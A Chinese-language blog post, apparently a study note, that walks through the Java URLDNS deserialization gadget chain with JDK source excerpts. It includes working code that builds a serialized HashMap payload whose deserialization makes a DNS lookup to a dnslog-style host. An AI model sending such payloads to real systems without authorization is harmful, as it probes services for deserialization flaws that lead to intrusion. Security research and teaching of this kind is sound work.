 ```yaml
---
title: "URLDNS链子分析"
published: 2023-07-09
description: ""
category: 胡乱折腾
tags: 
  - "java"
  - "urldns"
  - "反序列化"
  - "序列化"
---
```


### URLDNS链子分析

##### 序列化

Java 提供了一种对象序列化的机制，该机制中，一个对象可以被表示为一个字节序列，该字节序列包括该对象的数据、有关对象的类型的信息和存储在对象中数据的类型。

##### URLDNS分析

利用链

```java
HashMap.readObject()->HashMap.putVal()->HashMap.hash()->URL.hashCode()
```

可以看出最后在执行到了hashCode中。

URL.hashCode()

```
    public synchronized int hashCode() {
        if (hashCode != -1)
            return hashCode;

        hashCode = handler.hashCode(this);
        return hashCode;
    }
```

可以看出当hashCode != -1 时候可以继续执行handler.hashCode(this)

```java
    /* Our hash code.
     * @serial
     */
    private int hashCode = -1;
```

默认值正好是-1 所以只要把URL传入就可以构造一个满足的条件了。

在后续的handler.hashCode中解析了ip可以达到触发dnslog的方法 现在就是触发hashCode

HashMap.readObject

```java
    private void readObject(ObjectInputStream s)
        throws IOException, ClassNotFoundException {

        ObjectInputStream.GetField fields = s.readFields();

        // Read loadFactor (ignore threshold)
        float lf = fields.get("loadFactor", 0.75f);
        if (lf <= 0 || Float.isNaN(lf))
            throw new InvalidObjectException("Illegal load factor: " + lf);

        lf = Math.min(Math.max(0.25f, lf), 4.0f);
        HashMap.UnsafeHolder.putLoadFactor(this, lf);

        reinitialize();

        s.readInt();                // Read and ignore number of buckets
        int mappings = s.readInt(); // Read number of mappings (size)
        if (mappings < 0) {
            throw new InvalidObjectException("Illegal mappings count: " + mappings);
        } else if (mappings == 0) {
            // use defaults
        } else if (mappings > 0) {
            float fc = (float)mappings / lf + 1.0f;
            int cap = ((fc < DEFAULT_INITIAL_CAPACITY) ?
                       DEFAULT_INITIAL_CAPACITY :
                       (fc >= MAXIMUM_CAPACITY) ?
                       MAXIMUM_CAPACITY :
                       tableSizeFor((int)fc));
            float ft = (float)cap * lf;
            threshold = ((cap < MAXIMUM_CAPACITY && ft < MAXIMUM_CAPACITY) ?
                         (int)ft : Integer.MAX_VALUE);

            // Check Map.Entry[].class since it's the nearest public type to
            // what we're actually creating.
            SharedSecrets.getJavaOISAccess().checkArray(s, Map.Entry[].class, cap);
            @SuppressWarnings({"rawtypes","unchecked"})
            Node<K,V>[] tab = (Node<K,V>[])new Node[cap];
            table = tab;

            // Read the keys and values, and put the mappings in the HashMap
            for (int i = 0; i < mappings; i++) {
                @SuppressWarnings("unchecked")
                    K key = (K) s.readObject();
                @SuppressWarnings("unchecked")
                    V value = (V) s.readObject();
                putVal(hash(key), key, value, false, false);
            }
        }
    }
```

在HashMap中重写了readObject，实现了反序列化化时候对内容的添加，在使用putVal添加时候依旧会对键进行hash计算。正好可以触发到URL的hashCode

构造一个序列化

```java
        URL url = new URL("http://ebcd430c.ipv6.1433.eu.org");
        HashMap<Object,Object> hashMap = new HashMap<>();
        // 添加到HashMap中
        hashMap.put(url,1);

        // 反射方法修改hashCode的值
        Class cls = url.getClass();
        Field hashCode = cls.getDeclaredField("hashCode");
        // 设置修改权限
        hashCode.setAccessible(true);
        hashCode.set(url,-1);
        // 写入文件
        ObjectOutputStream oos = new ObjectOutputStream(Files.newOutputStream(Paths.get("urlDns.bin")));
        oos.writeObject(hashMap);
```

其中在添加到HashMap后要修改HashCode的值

因为HashMap.put方法中在添加值的时候对值也进行了hash的计算，从而触发了URL.hashCode然后导致了hashCode的值改变，但是因为hashCode值为private 所以需要通过反射的方法进行修改，把hashCode的值重新修改为-1

重新测试下反序列化

```java
ObjectInputStream inputStream = new ObjectInputStream(Files.newInputStream(Paths.get("urlDns.bin")));
        Object o = inputStream.readObject();
```

上面因为dns缓存的问题，直接put时候已经执行了一次 所以可以直接通过反射的方法添加HashMap

```java
     URL url = new URL("http://f4c877cc.ipv6.1433.eu.org");
        HashMap<Object,Object> hashMap = new HashMap<>();
        // 反射添加值
        Class cls = hashMap.getClass();
        Method method = cls.getDeclaredMethod("putVal", int.class,Object.class,Object.class,boolean.class,boolean.class);
        method.setAccessible(true);
        method.invoke(hashMap,0x00,url,1,false,true);
```
